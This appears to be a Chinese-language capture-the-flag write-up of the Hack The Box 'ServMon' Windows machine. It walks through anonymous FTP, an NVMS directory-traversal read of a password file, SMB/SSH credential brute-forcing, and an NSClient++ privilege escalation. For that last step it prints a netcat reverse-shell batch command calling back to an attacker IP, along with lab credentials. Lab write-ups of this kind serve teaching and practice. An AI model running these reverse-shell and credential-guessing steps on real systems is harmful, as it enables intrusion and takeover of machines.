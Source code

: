 ```yaml
---

---
```




# nmap

![image-20250410113318146](Servmon-windows/image-20250410113318146.png)

![image-20250410113330491](Servmon-windows/image-20250410113330491.png)

![image-20250410113337769](Servmon-windows/image-20250410113337769.png)

## 21端口

ftp存在匿名登录

用户名：Anonymous/anonymous 密码：空

`Users`下有两个文件夹，将内容下载到本地查看

![image-20250410113948816](Servmon-windows/image-20250410113948816.png)

有个说明passwords在C:\Users\Nathan\Desktop\Passwords.txt下

在ftp中得到的用户名

```
Nathan
Regards
Administer #windows管理员用户名
Nadine
```



## 80端口

![image-20250410151558402](Servmon-windows/image-20250410151558402.png)

NVMS存在远程目录读取漏洞，读取内容与POC所给出的内容一致，说明存在该漏洞，尝试读取`password.txt`

![image-20250410151742061](Servmon-windows/image-20250410151742061.png)

windows\win.ini目录也是在C盘下,windows目录和User目录同级，成功读到Password.txt

![image-20250410151956153](Servmon-windows/image-20250410151956153.png)

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5
```

尝试使用这些密码和ftp中得到的用户名爆破smb和ssh的账号密码

![image-20250410161219827](Servmon-windows/image-20250410161219827.png)

```
Nadine:L1k3B1gBut7s@W0rk
```

![image-20250410161329077](Servmon-windows/image-20250410161329077.png)

```
Nadine:L1k3B1gBut7s@W0rk 
```

```shell
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184
```

![image-20250410163430122](Servmon-windows/image-20250410163430122.png)

## 8443端口/提权

![image-20250410163317235](Servmon-windows/image-20250410163317235.png)

NSClient++默认目录在`C:\Program Files\NSClient++`在配置文件 `nsclient.ini`中有password，并且运行在靶机本地，需要端口转发到攻击机去访问这个服务

```shell
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

![image-20250410165911690](Servmon-windows/image-20250410165911690.png)

```txt
password = ew2x6SsGTxjRwXOT
```

![image-20250410172057574](Servmon-windows/image-20250410172057574.png)

搜索该版本漏洞，该版本存在本地提权漏洞

![image-20250410172234014](Servmon-windows/image-20250410172234014.png)

先上传`nc.exe`和`exp.bat`

exp.bat的内容就是运行nc进行shell反弹

```bash
@echo off
c:\Users\Nadine\nc.exe 10.10.16.3 443 -e cmd.exe
```

![image-20250410174022900](Servmon-windows/image-20250410174022900.png)

然后添加一个运行脚本运行`exp.bat`

![image-20250410174217529](Servmon-windows/image-20250410174217529.png)

添加一个定时任务

![image-20250410174421432](Servmon-windows/image-20250410174421432.png)

等一会就可以得到管理员的shell